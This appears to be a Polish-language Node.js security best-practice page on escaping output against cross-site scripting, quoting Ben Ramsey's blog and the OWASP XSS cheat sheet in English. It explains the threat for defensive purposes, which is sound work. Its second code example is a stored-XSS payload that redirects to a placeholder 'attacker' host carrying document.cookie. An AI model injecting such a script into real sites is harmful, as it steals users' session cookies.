# Escape Output

### Wyjaśnienie jednym akapitem

HTML i inne języki internetowe mieszają zawartość z kodem wykonywalnym - pojedynczy akapit HTML może zawierać wizualną reprezentację danych wraz z instrukcjami wykonywania JavaScript. Podczas renderowania HTML lub zwracania danych z API uważamy, że czysta treść może w rzeczywistości zawierać kod JavaScript, który zostanie zinterpretowany i wykonany przez przeglądarkę. Dzieje się tak na przykład podczas renderowania treści wstawionych przez osobę atakującą do bazy danych - na przykład `<div> <script> // szkodliwy kod </script> </div>`. Można to złagodzić, instruując przeglądarkę, aby traktowała każdą część niezaufanych danych tylko jako treść i nigdy jej nie interpretowała - ta technika nazywa się ucieczką. Wiele bibliotek NPM i silników szablonów HTML zapewnia możliwość zmiany znaczenia (przykład: [escape-html](https://github.com/component/escape-html), [node-esapi](https://github.com/ESAPI/node-esapi)). Należy unikać ucieczki nie tylko treści HTML, ale także CSS i JavaScript

### Przykład kodu - Nie umieszczaj niezaufanych danych w swoim HTML

```javascript
<script>...NEVER PUT UNTRUSTED DATA HERE...</script>   directly in a script
 
 <!--...NEVER PUT UNTRUSTED DATA HERE...-->             inside an HTML comment
 
 <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       in an attribute name
 
 <NEVER PUT UNTRUSTED DATA HERE... href="/test" />   in a tag name
 
 <style>...NEVER PUT UNTRUSTED DATA HERE...</style>   directly in CSS

```

### Przykład kodu - złośliwe treści, które mogą zostać wstrzyknięte do bazy danych

```javascript
<div>
  <b>A pseudo comment to the a post</b>
  <script>
    window.location='http://attacker/?cookie='+document.cookie
</script>
</div>

```

<br/><br/>

### Cytat na blogu: „Gdy nie chcemy, aby znaki były interpretowane”

Z Bloga [benramsey.com](https://benramsey.com/articles/escape-output/)
> Data may leave your application in the form of HTML sent to a Web browser, SQL sent to a database, XML sent to an RSS reader, WML sent to a wireless device, etc. The possibilities are limitless. Each of these has its own set of special characters that are interpreted differently than the rest of the plain text received. Sometimes we want to send these special characters so that they are interpreted (HTML tags sent to a Web browser, for example), while other times (in the case of input from users or some other source), we don’t want the characters to be interpreted, so we need to escape them.

> Escaping is also sometimes referred to as encoding. In short, it is the process of representing data in a way that it will not be executed or interpreted. For example, HTML will render the following text in a Web browser as bold-faced text because the <strong> tags have special meaning: 
<strong>This is bold text.</strong>
But, suppose I want to render the tags in the browser and avoid their interpretation. Then, I need to escape the angle brackets, which have special meaning in HTML. The following illustrates the escaped HTML:

&lt;strong&gt;This is bold text.&lt;/strong&gt;


<br/><br/>

### Cytat na blogu: "OWASP recommends using a security-focused encoding library"

Z bloga OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "Writing these encoders is not tremendously difficult, but there are quite a few hidden pitfalls. For example, you might be tempted to use some of the escaping shortcuts like \" in JavaScript. However, these values are dangerous and may be misinterpreted by the nested parsers in the browser. You might also forget to escape the escape character, which attackers can use to neutralize your attempts to be safe. **OWASP recommends using a security-focused encoding library to make sure these rules are properly implemented**."


<br/><br/>

### Cytat na blogu: "You MUST use the escape syntax for the part of the HTML"

Z bloga OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "But HTML entity encoding doesn't work if you're putting untrusted data inside a <script> tag anywhere, or an event handler attribute like onmouseover, or inside CSS, or in a URL. So even if you use an HTML entity encoding method everywhere, you are still most likely vulnerable to XSS. You MUST use the escape syntax for the part of the HTML document you're putting untrusted data into."
